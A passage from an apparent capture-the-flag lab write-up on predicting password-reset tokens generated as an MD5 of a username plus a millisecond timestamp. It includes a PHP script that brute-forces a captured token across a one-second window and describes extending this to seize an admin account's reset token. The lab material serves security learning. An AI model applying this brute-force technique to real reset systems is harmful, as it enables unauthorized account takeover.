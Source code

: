 Solution: As suggestion, we know that the creation of the tokens is based on Apache OpenMeeting. For first, we tried to build a PHP script for calculating the logic of creation of `htbuser` tokens by starting from the Apache OpenMeeting PHP example:
```php
<?php
function generate_reset_token($username) {
  $time = intval(microtime(true) * 1000);
  $token = md5($username . $time);
  return $token;
}
```
From here, we note that the $time is converted from seconds to milliseconds (`*1000`) and then `$username` is concatenated with `$time` (e.g. `htbuser1234567890123`).

At this point we created a new PHP script and we tried to compare a htbuser token we created on the target website and we compared it with all the tokens we generated by our PHP algorithm in the following way:
```php
<?php
function generate_reset_token($username) {
  //echo microtime(true) . "\n";
  //echo microtime() . "\n";
  $time = intval(microtime(true) * 1000);
  $time = 1647135274 * 1000; //convert from seconds to milliseconds (1647135274 corresponds to 2022-3-13 at 1:34:34 from epoch time in seconds)
  $token_to_compare = "d24f7f6ad0fa0b400b9d2e268c0721c2"; //This token has been generated on 2022-3-13 at 1:34:34
  
  //Now let's compute all the token for all the milliseconds
  for ($i = 0; $i <= 999; $i++) {
    $token = md5($username . $time);
    if(strcmp($token,$token_to_compare) == 0){
    	echo "TIME OK: $time\n";
    	echo "Input: $username" . "$time\n";
  		echo "Token: $token"; 
    	return $token;
    }
    $time++;
  }
  echo "Failed search\n";
  return NULL;
}
generate_reset_token("htbuser");
?>
```
Note that here **the algorithm works with my localtime** (so I think the localtime of the user).

Now that we proved the logic of the algorithm for generating tokens, let's try to do the same also for htbadmin. For doing this, we started from the `reset_token.py` script shown in the previous section and we edited it accordingly to the logic discovered by the PHP script above.

Before report the script, I explain my finding: the text of the question says that the htbadmin token is created when I request a token for htbuser within a +-1 second of interval. It means, that for first I should do a POST request for asking a htbuser token, then I can try to bruteforce the token of htbadmin. Remember that the time must be in milliseconds, so, since I should check the interval +-1 second, it means I should use `start_time = now - 1000` (-1000 milliseconds) and the for loop must loop for furter +1000 milliseconds. Furthermore, here **the time is not my localtime but it is UTC time** (I guess the time of the target machine or htbadmin). So, in general, in real cases we should try always to test all UTCs time zones.

